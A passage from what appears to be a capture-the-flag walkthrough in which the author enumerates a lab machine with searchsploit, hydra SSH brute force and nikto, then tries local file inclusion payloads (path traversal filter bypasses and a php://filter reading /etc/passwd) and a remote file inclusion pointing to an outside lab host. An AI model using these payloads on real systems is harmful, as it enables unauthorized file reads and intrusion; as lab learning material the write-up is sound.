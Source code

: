 I download each of these files and look through them but don't find anything I can use.

I run a searchsploit on all the packages listed, as well as Apache 2.4.29 and OpenSSH 7.6p1, and don't have any luck there either.

I run hydra for 1 minute on each user against the SSH port and that doesn't end up working.

I run a nikto against the website and don't get anything useful back.

Not having much else to go on I decide to look closer at the page parameter because it's the only thing that sticks out up until this point and I may be able to bypass the ../ filter somehow.

I try several different variations that can sometimes bypass basic filters:

```
/.././.././.././../etc/passwd
/..//..//..//../etc/passwd
../../../../etc/passwd/.
....//....//....//....//etc/passwd
```

And none of them work. I try just putting .. as the page and it turns out it catches even that so none of the above would have worked:

![](images/assertion5.png)

I try and just use /etc/passwd so there are no .. but that doesn't work either.

Throwing a php filter in there also does not work:

```
?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

No luck on RFI either:

```
?page=http://192.168.49.75/users.txt
```

I do a lot of searching around google for additional LFI methods to try here and finally come upon something that makes a whole lot of sense given the name of this CTF. It turns out the webpage is using the PHP assert() function likely on .. to return that "Not so easy brother!" message to us. Here is the link I found:
